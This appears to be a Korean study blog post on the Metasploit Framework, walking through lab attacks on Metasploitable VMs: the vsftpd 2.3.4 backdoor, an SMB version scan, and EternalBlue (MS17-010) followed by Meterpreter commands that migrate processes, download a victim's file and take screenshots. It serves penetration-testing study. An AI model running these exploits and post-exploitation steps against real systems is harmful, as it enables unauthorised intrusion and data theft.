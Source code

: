 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

`vsftpd 2.3.4`는 2011년에 공개된 가짜 백도어가 포함된 버전이다.  
이 백도어는 사용자 이름에 `:)`를 포함하면, 서버가 **6200번 포트에서 root 권한의 백도어 쉘**을 실행한다.

> **주의**: 현대 리눅스 배포판(예: Ubuntu 22.04)의 `apt`나 공식 Docker 이미지에는 이 백도어가 **포함되지 않는다**.  
> 따라서 이 공격을 재현하려면 **Metasploitable 2**와 같은 의도적으로 취약한 가상머신이 필요하다.

#### ***공격 절차***

1. **Metasploitable 2 실행**  
   [공식 사이트](https://sourceforge.net/projects/metasploitable/)에서 다운로드한 후 VirtualBox 또는 VMware로 실행한다.  
   기본 IP는 `192.168.56.101` 등 내부 네트워크 주소이다.

2. **Metasploit에서 모듈 실행**  
   ```bash
   # 1. msfconsole 실행
   msfconsole

   # 2. 백도어 익스플로잇 모듈 선택
   msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

   # 3. 대상 IP 설정
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.101

   # 4. 공격 실행
   msf6 exploit(...) > exploit
   ```

3. **결과 확인**
   공격이 성공하면 다음과 같은 메시지가 출력된다:  
   ```
   [*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.101:6200)
   ```  
   이후 `whoami`를 입력하면 `root`가 반환되며, 시스템 제어권을 획득한 것을 확인할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다.  
예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.56.101

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```

실행 결과로 다음 정보가 출력된다:  
```
[+] 192.168.56.101:445    - Host is running Windows 2008 R2 SP1 (build:7601) (name:WIN-MACHINE) (domain:WORKGROUP)
```  
이 정보는 추후 해당 OS에 맞는 익스플로잇(예: MS17-010)을 선택하는 데 활용된다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집 · 프로세스 제어 · 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### ***공격 시나리오: MS17-010 (EternalBlue)***

Metasploitable 2는 Windows 머신이 아니지만,  
**Metasploitable 3 **(Windows 기반)을 사용하면 다음과 같은 공격이 가능하다.

1. **모듈 설정**  
   ```bash
   # 이터널블루 익스플로잇 모듈 선택
   msf6 > use exploit/windows/smb/ms17_010_eternalblue

   # 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
   msf6 exploit(...) > set RHOSTS 192.168.56.102
   msf6 exploit(...) > set LHOST 192.168.56.1

   # 공격 실행
   msf6 exploit(...) > exploit
   ```

#### ***Meterpreter 세션 활용***
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">